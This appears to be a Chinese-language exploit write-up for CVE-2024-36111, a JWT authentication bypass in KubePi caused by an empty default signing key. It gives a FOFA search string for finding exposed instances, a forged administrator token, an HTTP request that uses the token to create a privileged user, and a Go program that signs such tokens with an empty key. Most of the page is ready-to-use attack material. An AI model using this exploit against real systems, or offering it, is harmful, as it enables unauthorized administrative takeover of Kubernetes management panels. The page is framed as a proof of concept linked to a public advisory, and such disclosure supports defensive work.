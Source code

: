 # KubePi存在JWT验证绕过漏洞(CVE-2024-36111)

kubepi jwttoken 校验存在缺陷，默认配置文件中jwt密钥为空，虽然读取配置文件相关逻辑中检测到密钥为空时，会生成一个随机32位字符串覆盖配置文件中的密钥，但是实际校验时，密钥为空，使用空密钥生成jwttoken可绕过登录校验，可直接接管后台

## fofa

```java
"kubepi"
```
/kubepi/login?redirect=%2F
![image](https://github.com/user-attachments/assets/7b469593-1574-43f2-a71f-3221886e23c8)

## poc

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302144253.png)

使用空密钥生成jwt token 

```java
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfSwiaWF0IjoxNzE2NDQ3MDEyLCJleHAiOjE3MjI0NDcwMTJ9.dedNLwXZu0JY1sgGBCRZmpFvAnLdHjxdPmKWXA7LCf4
```

使用生成的密钥创建用户tang

```java
POST /kubepi/api/v1/users HTTP/1.1
Host: 127.0.0.1:9982
Content-Length: 248
sec-ch-ua: 
Accept: application/json, text/plain, */*
lang: zh-CN
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
sec-ch-ua-platform: ""
Origin: http://127.0.0.1:9982
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:9982/kubepi/user-management/users/create
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfSwiaWF0IjoxNzE2NDQ3MDEyLCJleHAiOjE3MjI0NDcwMTJ9.dedNLwXZu0JY1sgGBCRZmpFvAnLdHjxdPmKWXA7LCf4
Connection: close

{"apiVersion":"v1","kind":"User","name":"tang","roles":["Common User","Manage Image Registries","Manage Clusters","Manage RBAC"],"nickName":"tang","email":"tang@qq.com","authenticate":{"password":"12345678@Tang"},"mfa":{"enable":false,"secret":""}}
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302142936.png)

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302142055.png)

## 生成jwt token程序

```go
package main

import (
	"fmt"
	"github.com/kataras/iris/v12/middleware/jwt"
	"time"
)

var jwtMaxAge = 100000 * time.Minute

type UserProfile struct {
	Name                string              `json:"name"`
	NickName            string              `json:"nickName"`
	Email               string              `json:"email"`
	Language            string              `json:"language"`
	ResourcePermissions map[string][]string `json:"resourcePermissions"`
	IsAdministrator     bool                `json:"isAdministrator"`
	Mfa                 Mfa                 `json:"mfa"`
}

type Mfa struct {
	Enable   bool   `json:"enable"`
	Secret   string `json:"secret"`
	Approved bool   `json:"approved"`
}

func main() {
	jwtSigner := jwt.NewSigner(jwt.HS256, "", jwtMaxAge)
	test := map[string][]string{}
	profile := UserProfile{
		Name:                "admin",
		NickName:            "Administrator",
		Email:               "support@fit2cloud.com",
		Language:            "zh-CN",
		ResourcePermissions: test,
		IsAdministrator:     true,
		Mfa: Mfa{
			Secret:   "",
			Enable:   false,
			Approved: false,
		},
	}
	nonejwt, _ := jwtSigner.Sign(profile)
	fmt.Println(string(nonejwt))
}

```

## 漏洞来源

- https://github.com/1Panel-dev/KubePi/security/advisories/GHSA-8q5r-cvcw-4wx7
